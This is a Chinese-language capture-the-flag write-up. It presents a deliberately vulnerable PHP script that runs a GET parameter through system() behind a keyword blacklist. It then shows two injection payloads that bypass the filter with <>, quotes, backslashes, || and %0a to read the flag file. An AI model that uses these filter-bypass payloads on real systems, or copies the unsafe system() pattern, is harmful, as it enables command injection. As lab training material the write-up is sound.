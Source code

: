 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:32:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

;

cat

flag

空格

数字

$

*

more

less

head

sort

tail

sed

cut

awk

strings

od

curl

`

%

\x09即水平制表符tab

\x26即&符号



无回显



### 第一种

利用<>绕过空格

利用||绕过无回显

利用''绕过字母过滤

```
?c=ls||
```

![image-20250403155232393](./assets/image-20250403155232393.png)

```
?c=tac<>fl''ag.php||
```

![image-20250403155220644](./assets/image-20250403155220644.png)







### 第二种

利用<绕过空格

利用%0a绕过无回显

利用\绕过字母过滤

```
?c=tac<fl\ag.php%0a
```

![image-20250403155333881](./assets/image-20250403155333881.png)
